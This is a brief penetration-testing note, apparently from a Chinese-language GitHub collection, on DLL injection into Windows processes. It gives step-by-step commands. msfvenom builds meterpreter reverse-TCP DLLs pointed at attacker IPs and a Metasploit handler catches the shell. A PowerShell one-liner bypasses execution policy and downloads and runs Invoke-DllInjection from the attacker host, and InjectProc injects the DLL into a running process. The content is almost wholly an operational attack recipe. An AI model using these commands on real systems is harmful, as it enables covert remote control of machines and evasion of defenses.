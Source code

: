   #### Powershell
	生成DLL
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=6666 -f dll -o /var/www/html/x.dll
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>Powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.105/powersploit/CodeExecution/Invoke-DllInjection.ps1'); Invoke-DllInjection -ProcessID pid -Dll .\1.dll"
  #### InjectProc
	生成DLL
	#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f dll -o /var/www/html/qq.dll
	#use exploit/multi/handler
	#set payload windows/x64/meterpreter/reverse_tcp
	使用如下命令注入进程
	>InjectProc.exe dll_inj qq.dll xx.exe(存在的进程)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/477.png)